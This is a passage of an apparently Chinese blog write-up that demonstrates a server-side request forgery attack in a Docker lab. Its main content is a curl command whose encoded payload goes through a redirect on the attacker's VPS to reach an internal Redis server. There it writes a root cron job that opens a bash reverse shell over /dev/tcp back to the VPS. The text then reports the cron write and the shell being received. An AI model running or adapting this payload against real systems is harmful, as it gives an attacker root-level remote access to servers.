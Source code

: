 <pre class="prettyprint"><code class=" hljs perl">curl -d <span class="hljs-string">"link=http<span class="hljs-variable">%3A</span><span class="hljs-variable">%2f</span><span class="hljs-variable">%2fwww</span>.(vps address).xip.io<span class="hljs-variable">%2f302</span>.php<span class="hljs-variable">%3Furl</span><span class="hljs-variable">%3Dhttp</span><span class="hljs-variable">%253A</span><span class="hljs-variable">%252f</span><span class="hljs-variable">%252f172</span>.17.0.3<span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%25252a3</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%2525243</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250Aset</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%2525241</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250Aa</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%25252464</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%25250a</span><span class="hljs-variable">%25252a</span><span class="hljs-variable">%25252f1</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252a</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252a</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252a</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252a</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252fbin</span><span class="hljs-variable">%25252fbash</span><span class="hljs-variable">%252520</span>-i<span class="hljs-variable">%252520</span><span class="hljs-variable">%25253E</span><span class="hljs-variable">%252526</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252fdev</span><span class="hljs-variable">%25252ftcp</span><span class="hljs-variable">%25252f</span>(vps address)<span class="hljs-variable">%25252f12345</span><span class="hljs-variable">%2525200</span><span class="hljs-variable">%25253E</span><span class="hljs-variable">%2525261</span><span class="hljs-variable">%25250a</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250Aconfig</span><span class="hljs-variable">%252520set</span><span class="hljs-variable">%252520dir</span><span class="hljs-variable">%252520</span><span class="hljs-variable">%25252fvar</span><span class="hljs-variable">%25252fspool</span><span class="hljs-variable">%25252fcron</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250Aconfig</span><span class="hljs-variable">%252520set</span><span class="hljs-variable">%252520dbfilename</span><span class="hljs-variable">%252520root</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250Asave</span><span class="hljs-variable">%25250d</span><span class="hljs-variable">%25250A</span><span class="hljs-variable">%253A6379</span><span class="hljs-variable">%252f</span>"</span> <span class="hljs-string">"http://172.17.0.4:8000/show"</span> -v -L</code></pre>
<p>执行结果如下 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170616014958229?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170616015042229?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
成功执行 <br>
观察 redis端的情况 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170616015131715?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170616020355536?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></img></br></br></br></img></br></img></br></p>
<p>成功实现计划任务的写入 <br>
下面就是vps接受反弹的shell</br></p>
<h3 id="3接收反弹的shell">3.接收反弹的shell</h3>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170616020911274?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p></div>